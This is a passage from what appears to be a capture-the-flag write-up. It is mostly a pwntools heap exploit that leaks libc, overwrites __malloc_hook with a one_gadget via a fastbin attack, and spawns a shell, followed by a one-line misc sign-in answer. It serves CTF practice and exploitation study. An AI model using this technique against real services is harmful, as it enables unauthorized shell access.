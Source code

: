 ```python
0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

"""

libc.address = u64(p.recv(6) + "\x00" * 2) - libc.symbols['__malloc_hook'] - 0x68
onegadget = libc.address + 0xf1147
info("libc: {}".format(hex(libc.address)))

new("4" * (0x60 - 1) + "\n")  # 4 , 2 ---> 4
new("5" * (0x60 - 1) + "\n")  # 5

delete(4)

edit(2, p64(libc.symbols['__malloc_hook'] - 0x23) + "\n")

new("6" * (0x60 - 1) + "\n")  # 6

new("\x00" * (0x60 - 1) + "\n")  # 7

payload = "\x00" * 0x13
payload += p64(onegadget)
payload += p64(onegadget)
payload += p64(onegadget)
payload += "\n"
edit(7, payload)

p.sendlineafter("> ", "1")

p.interactive()
```



#	Misc

##	签到

三人出境即可


